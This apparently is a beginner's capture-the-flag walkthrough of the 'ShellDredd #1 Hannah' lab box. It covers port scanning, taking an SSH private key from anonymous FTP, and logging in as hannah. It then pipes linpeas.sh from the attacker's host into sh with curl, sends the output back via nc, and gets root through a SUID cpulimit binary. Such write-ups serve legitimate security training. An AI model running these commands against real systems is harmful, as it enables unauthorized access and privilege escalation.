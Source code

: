 ```yaml
---
title: OnSystem ShellDredd #1 Hannah
author:
  name: am-a-circle
  link: https://am-a-circle.github.io
date: 2021-04-15 12:00:00 
categories: [OSCP PG Play]
tags: [SUID,easy]
math: false
mermaid: false
---
```



## Overview

"ONSYSTEM: SHELLDREDD #1 HANNAH" is an easy boxes which is great for beginners to learn more about enumerating the poorly configured FTP port to search for sensitive information and escalate to root by exploiting SUID.

|Box Difficulty| Link|
|--|--|
| Easy | [Vulnhub Link](https://www.vulnhub.com/entry/onsystem-shelldredd-1-hannah,545/) |

For this box I will be attempting it on Offensive security **PG Play** .

## Recon

I always like to start with Masscan to find all open port followed by nmap enumeration.
```bash
masscan -p1-65535 192.168.109.130 --rate=1000 
Discovered open port 21/tcp on 192.168.109.130   
Discovered open port 61000/tcp on 192.168.109.130                              
```


```bash
# Nmap 7.91 scan initiated Sun Apr 11 03:44:50 2021 as: nmap -sV -sC -p 21,61000 -oN /opt/OSCP_PlayG/OnSystemShellDredd/nmap_full.txt 192.168.109.130
Nmap scan report for 192.168.109.130
Host is up (0.25s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.109
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:2d:21:0c:2f:af:9d:5a:7b:3e:a4:27:aa:37:89:08 (RSA)
|   256 59:26:da:44:3b:97:d2:30:b1:9b:9b:02:74:8b:87:58 (ECDSA)
|_  256 8e:ad:10:4f:e3:3e:65:28:40:cb:5b:bf:1d:24:7f:17 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 11 03:45:01 2021 -- 1 IP address (1 host up) scanned in 11.80 seconds

```

Through this we can see that there is a FTP server on port 21 and a SSH at port 61000.

## FTP - TCP 21

We can see that anonymous login is allowed, let's test it:
```bash
# ftp 192.168.109.130
Connected to 192.168.109.130.
220 (vsFTPd 3.0.3)
Name (192.168.109.130:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Next , let's download all the files from the FTP server so we can look through the files :

```bash
 wget -m --no-passive ftp://anonymous:anonymous@192.168.109.130                                                                                                         
--2021-04-13 03:05:02--  ftp://anonymous:*password*@192.168.109.130/                                                                                                       
           => ‘192.168.109.130/.listing’                                                                                                                                   
Connecting to 192.168.109.130:21... connected.                                                                                                                             
Logging in as anonymous ... Logged in!                                                                                                                                    
==> SYST ... done.    ==> PWD ... done.                                                                                                                                   
==> TYPE I ... done.  ==> CWD not needed.                                                                                                                                 
==> PORT ... done.    ==> LIST ... done.       
```

```bash
┌──(root💀kali)-[/opt/OSCP_PlayG/OnSystemShellDredd/192.168.109.130]
└─# ls -laR
.:
total 16
drwxr-xr-x 3 root root 4096 Apr 11 03:52 .
drwxr-xr-x 4 root root 4096 Apr 13 03:05 ..
drwxr-xr-x 2 root root 4096 Apr 11 03:52 .hannah
-rw-r--r-- 1 root root  184 Apr 11 03:52 .listing

./.hannah:
total 16
drwxr-xr-x 2 root root 4096 Apr 11 03:52 .
drwxr-xr-x 3 root root 4096 Apr 11 03:52 ..
-r-------- 1 root root 1823 Aug  6  2020 id_rsa
-rw-r--r-- 1 root root  183 Apr 11 03:52 .listing

```

Great we can see that under the user folder .hannah , there is a id_rsa key. 

```bash
└─# cat id_rsa                     
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
....
HvHD9hkCPIq7Sc/TAAAADXJvb3RAT2ZmU2hlbGwBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----

```

Looking into the content of the file, we can see that this is a OPENSSH PRIVATE KEY, and can use this to ssh into the system as hannah most probably!


## Shell as Hannah

We can see below that if we try to ssh as hannah using the private key,it is ignored as the permission are too open.
```bash
─# ssh -i .hannah/id_rsa hannah@192.168.91.130 -p 61000         
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for '.hannah/id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key ".hannah/id_rsa": bad permissions
hannah@192.168.91.130's password: 
```

Instead we have to ensure that the key is read-writeable by you only before we can ssh as hannah!
```bash
# chmod 600 .hannah/id_rsa 
# ssh -i .hannah/id_rsa hannah@192.168.91.130 -p 61000
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
hannah@ShellDredd:~$ 
```

With that we are now in the shell as hannah!

## Shell as Root

One of the first things i like to do is run `linpeas.sh`
```bash
#Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out # On Host 
curl HOST-IP:8000/linpeas.sh | sh | nc HOST-IP 9002 #On Victim
```

After running `linpeash.sh` we can see that there is a cpulimit has a SUID permission which we can exploit. This mean we can run cpulimit command as root.
```bash
════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════                                                                             
[+] SUID - Check easy privesc, exploits and write perms                                                                                                                   
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                                             
strings Not Found                                                                                                                                                         
strace Not Found                                                                                                                                                          
-rwsr-sr-x 1 root root       120K Mar 23  2012 /usr/bin/mawk                                                                                                              
-rwsr-xr-x 1 root root        10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device                                                                                          
-rwsr-sr-x 1 root root        23K Jun 23  2017 /usr/bin/cpulimit             
```

Thus to gain root privileges , we use cpulimit to copy bash into the temp directory, give it a "chmod +s" so that it maintains root privileges from suid.
```bash
hannah@ShellDredd:~$ cpulimit -l 50 -f cp /bin/bash /tmp/bash
Process 1165 detected
Child process is finished, exiting...
hannah@ShellDredd:~$ cpulimit -l 50 -f chmod +s /tmp/bash
Process 1167 detected
Child process is finished, exiting...
hannah@ShellDredd:~$ /tmp/bash -p
bash-5.0# whoami
root
bash-5.0# id
uid=1000(hannah) gid=1000(hannah) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(hannah)

```

And we are root!
